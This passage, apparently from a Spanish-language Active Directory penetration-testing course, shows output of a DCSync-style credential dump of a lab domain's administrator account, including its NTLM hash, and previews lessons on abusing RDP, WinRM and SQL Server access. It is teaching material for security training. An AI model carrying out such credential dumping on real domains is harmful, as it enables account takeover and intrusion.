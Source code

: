 ```r
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

---

## Moving On

En la siguiente sección, veremos algunas formas de enumerar y aprovechar los derechos de acceso remoto que pueden ser otorgados a un usuario que controlamos. Estos métodos incluyen Remote Desktop Protocol (RDP), WinRM (o PsRemoting) y acceso de administrador de SQL Server.